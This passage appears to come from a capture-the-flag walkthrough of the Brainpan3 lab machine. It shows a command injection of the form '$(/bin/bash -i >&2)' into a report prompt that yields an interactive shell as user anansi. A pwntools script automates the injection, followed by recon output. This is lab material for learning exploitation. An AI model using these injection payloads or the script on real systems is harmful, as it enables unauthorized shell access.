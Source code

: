 Nice! Now the fun part, let's try to get a shell. 

```
ENTER COMMAND: $ 1

ENTER REPORT, END WITH NEW LINE:

`/bin/bash -i >&2`

REPORT [`/bin/bash -i >&2`]
SENDING TO REPORT MODULE

bash: cannot set terminal process group (5677): Inappropriate ioctl for device
bash: no job control in this shell
anansi@brainpan3:/$ whoami
anansi
anansi@brainpan3:/$ uname -a
Linux brainpan3 3.16.0-41-generic #55~14.04.1-Ubuntu SMP Sun Jun 14 18:44:35 UTC 2015 i686 i686 i686 GNU/Linux
anansi@brainpan3:/$  
```

And we have a user shell! As normal, let's modify our exploit script to retrieve a shell for us automagically:

```python
###
# Get user shell
###

for command in ['uname -a', 'whoami', 'id']:
    r.clean()
    r.sendline('1')
    r.sendline('$({} >&2)'.format(command))

    r.recvuntil("SENDING TO REPORT MODULE")
    output = r.recvuntil('[+]').split('\n')[2]
    log.success("{} - {}".format(command, output))

r.clean()
r.sendline('1')
r.sendline('$(/bin/bash -i >&2)')

r.interactive()
```

## Step 4

Time to begin basic recon of the `anansi` shell:

```
anansi@brainpan3:/$ $ whoami
anansi

anansi@brainpan3:/$ $ uname -a
Linux brainpan3 3.16.0-41-generic #55~14.04.1-Ubuntu SMP Sun Jun 14 18:44:35 UTC 2015 i686 i686 i686 GNU/Linux

anansi@brainpan3:/$ $ id
uid=1000(anansi) gid=1003(webdev) groups=1000(anansi)
```
